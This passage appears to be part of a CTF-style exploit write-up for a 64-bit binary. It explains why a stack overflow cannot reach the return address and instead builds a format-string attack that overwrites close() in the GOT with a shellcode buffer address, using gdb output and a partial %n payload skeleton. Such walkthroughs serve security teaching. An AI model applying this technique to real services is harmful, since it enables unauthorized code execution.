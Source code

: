 Buffer starts at address rbp-0x240. Return address is on rbp+0x4. The offset is 0x244 bytes > 0x200. 
This means that we can't directly overflow the return address. But we can use the format string
vulnerability to overwrite the address of close() in GOT with the address of that buffer which
relies our shellcode.

Let's see how we can overwrite the address of close in GOT:
```assembly
(gdb) disas 0x400a80
Dump of assembler code for function close@plt:
   0x0000000000400a80 <+0>:		jmpq   *0x2015f2(%rip)        # 0x602078 <close@got.plt>
   0x0000000000400a86 <+6>:		pushq  $0xc
   0x0000000000400a8b <+11>:	jmpq   0x4009b0
End of assembler dump.

(gdb) x/8xb 0x602078
0x602078 <close@got.plt>:	0x86	0x0a	0x40	0x00	0x00	0x00	0x00	0x00
```
We want to write the address of our shellcode on address 0x602078. Let's assume for now that the 
address of the shellcode is 0x7fffffffdac0:
```assembly
1: x/i $pc
=> 0x401030 <getpage+970>:	callq  0x400a80 <close@pl
(gdb) set *0x602078 = 0xffffdac0
(gdb) set *0x60207c = 0x00007fff
(gdb) x/8xb 0x602078
0x602078 <close@got.plt>:	0xc0	0xda	0xff	0xff	0xff	0x7f	0x00	0x00
(gdb) si
0x00007fffffffdac0 in ?? ()
```
Cool! Let's make the overwrite via the format string. We want the following values (little endian):

	* 0x602078 --> c0
	* 0x602079 --> da
	* 0x60207a --> ff
	* 0x60207b --> ff
	* 0x60207c --> ff
	* 0x60207d --> 7f
	* 0x60207e --> 00
	* 0x60207f --> 00

Create the "core" structure of the format string -we'll use direct parameter access-(don't forget 
that we're in x64):
```
	"A"x8 .                                                               \
	"%000llu%000\$n"."%000llu%000\$n"."%000llu%000\$n"."%000llu%000\$n".  \
	"%000llu%000\$n"."%000llu%000\$n"."%000llu%000\$n"."%000llu%000\$n".  \
	"\x78\x20\x60\x00\x00\x00\x00\x00"."\x79\x20\x60\x00\x00\x00\x00\x00".\
	"\x7a\x20\x60\x00\x00\x00\x00\x00"."\x7b\x20\x60\x00\x00\x00\x00\x00".\
	"\x7c\x20\x60\x00\x00\x00\x00\x00"."\x7d\x20\x60\x00\x00\x00\x00\x00".\
	"\x7e\x20\x60\x00\x00\x00\x00\x00"."\x7f\x20\x60\x00\x00\x00\x00\x00".\
```
NOTE 1: We're using recv() for reading data, so NULL bytes are allowed
NOTE 2: We add some A's at the beginning to find easier where the buffer starts.
